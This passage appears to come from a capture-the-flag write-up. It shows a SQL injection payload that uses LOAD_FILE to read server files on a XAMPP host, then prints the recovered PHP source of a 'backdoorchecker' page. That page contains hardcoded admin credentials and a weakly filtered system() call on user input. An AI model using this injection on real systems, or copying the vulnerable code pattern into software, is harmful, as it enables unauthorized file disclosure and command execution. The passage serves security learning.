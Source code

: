 - WWW documents: `\xampp\htdocs`
- Apache configuration file: `\xampp\apache\conf\httpd.conf`
- PHP configuration file: `\xampp\php\php.ini`
- MySQL configuration file: `\xampp\mysql\bin\my.ini`

Using the SQL function `LOAD_FILE()` (https://mariadb.com/kb/en/load_file/), the following SQL query can be passed to the Python3 script:

```sql
1' UNION SELECT 'file:',LOAD_FILE('C:/xampp/htdocs/admin/backdoorchecker.php'),'?' #
```

This returns the following PHP source code for `backdoorchecker.php`:

```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
			// FILTER ESCAPE CHARS
			foreach($bad as $char){
				if(strpos($_POST['cmd'],$char) !== false){
					die("You're not allowed to do that.");
				}
			}
			// CHECK IF THE FIRST 2 CHARS ARE LS
			if(substr($_POST['cmd'], 0,strlen($good)) != $good){
				die("It's only allowed to use the $good command");
			}

			if($_SERVER['REMOTE_ADDR'] == "::1"){
				system($_POST['cmd']);
			} else{
				echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
			}
	}
} else{
	echo "You are not allowed to use this function!";
}
?>
```
